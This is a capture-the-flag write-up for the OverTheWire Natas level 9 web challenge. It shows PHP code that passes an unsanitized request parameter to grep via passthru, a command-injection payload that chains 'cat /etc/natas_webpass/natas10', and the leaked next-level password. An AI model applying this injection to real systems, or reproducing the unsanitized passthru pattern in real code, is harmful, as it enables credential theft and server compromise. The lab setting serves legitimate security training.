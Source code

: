 We are greeted with an input field and more source code, again, straight to the source.
Where we find:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

We can see, straight up `grep -i $key dictionary.txt` and `$key` is just taken from the request, no sanitization!
Which means we can write anything there and it will execute with the `grep` command.

## Example

`http://natas9.natas.labs.overthewire.org/?needle=test&submit=Search`

> Will run the script with `$key=test`, resulting in the execution of `grep -i test dictionary.txt`.

`http://natas9.natas.labs.overthewire.org/?needle=.*&submit=Search`

> Yields `grep -i .* dictionary.txt`.


There are several ways we can solve this level, however we will opt through the most straightforward way, given this yells [Command Injection](https://www.owasp.org/index.php/Command_Injection);
Given we can write anything into the string what we want to do is to the escape from the `grep` command and execute interesting stuff.

We can do that by writing:

```bash
! dictionary.txt ; cat /etc/natas_webpass/natas10; grep -i !
```

Which results in the execution of the following command:

```bash
grep -i ! dictionary.txt ; cat /etc/natas_webpass/natas10; grep -i ! dictionary.txt
```

Breaking it down we can notice the same command in the beggining and the end.
The usage of `!` is just so we don't get any matches from either `grep`'s and the `dictionary.txt` that we add in the input is just to avoid `grep` crashing.
The `;` allows us to write another command to execute after the first one finished, 
providing the ability to add the `cat /etc/natas_webpass/natas10` which will print the file.

```html
<div id="content">
<form>
Find words containing: <input name="needle"><input type="submit" name="submit" value="Search"><br><br>
</form>


Output:
<pre>nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```